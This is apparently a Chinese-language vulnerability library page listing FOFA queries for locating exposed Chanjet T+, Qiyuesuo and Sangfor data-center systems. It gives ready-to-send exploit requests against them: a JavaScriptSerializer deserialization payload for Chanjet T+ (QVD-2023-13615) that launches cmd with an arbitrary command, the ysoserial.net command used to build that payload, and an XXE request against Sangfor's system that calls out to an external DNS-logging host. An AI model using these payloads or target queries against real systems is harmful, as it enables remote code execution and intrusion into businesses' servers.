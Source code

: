 ## 这里就是漏洞库了

### 用友畅捷通T
- fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

- POC
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore
  
  {
  "storeID":{}
  }
  ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![这是一张图片](/images/QVD-2023-13615/1.png)

- 出现这种情况，则存在漏洞  
  使用ysoserial.net工具构造payload（攻击链：ObjectDataProvider）

- `./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"`

  ![这是一张图片](/images/QVD-2023-13615/2.png)

- 将生成的序列化数据加载到PoC中（PS：需要将里面的单引号替换成双引号）

  ![这是一张图片](/images/QVD-2023-13615/3.png)

- exp：
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore

  {
  "storeID":{
      "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
      "MethodName":"Start",
      "ObjectInstance":{
          "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
          "StartInfo": {
              "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
              "FileName":"cmd", "Arguments":"/c 执行的命令"
          }
      }
  }
  }
  ```
  ![这是一张图片](/images/QVD-2023-13615/4.png)

  ![Alt text](/images/QVD-2023-13615/5.png)

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)

------

### 契约锁

- fofa语法：`app="契约锁-电子签署平台"`

------

### 深信服 DC数据中心管理系统

- fofa语法：`app="SANGFOR-数据中心"`

#### 深信服数据中心管理系统 XXE漏洞

- POC
  ```
  POST /src/sangforindex HTTP/1.1
  Host: your-ip
  Content-Type: text/xml
  
  <?xml version="1.0" encoding="utf-8" ?>
  <!DOCTYPE root [
      <!ENTITY rt SYSTEM "http://dnslog.cn">
  ]>
  <xxx>
  &rt;
  </xxx>
  ```

- 验证

![Alt text](/images/深信服/1.png)

![Alt text](/images/深信服/2.png)

[相关链接](https://blog.csdn.net/qq_41904294/article/details/132310337)

------
------
